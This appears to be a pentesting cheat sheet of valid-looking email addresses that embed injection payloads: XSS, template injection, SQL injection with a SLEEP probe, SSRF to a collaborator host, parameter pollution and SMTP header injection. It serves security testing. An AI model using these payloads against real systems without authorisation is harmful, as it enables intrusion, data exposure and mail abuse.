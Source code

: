 **The following payloads are all valid e-mail addresses that we can use for pentesting of not only web based e-mail systems.**

**XSS (Cross-Site Scripting)**
```
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```
**Template Injection**
```
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```
**SQL Injection**
```
"' OR 1=1 -- '"@example.com
"mail');SELECT SLEEP(10);--"@example.com
```
**SSRF (Server-Side Request Forgery)**
```
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```
**Parameter Pollution**
```
victim&email=attacker@example.com
```
**(Email) Header Injection**
```
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```
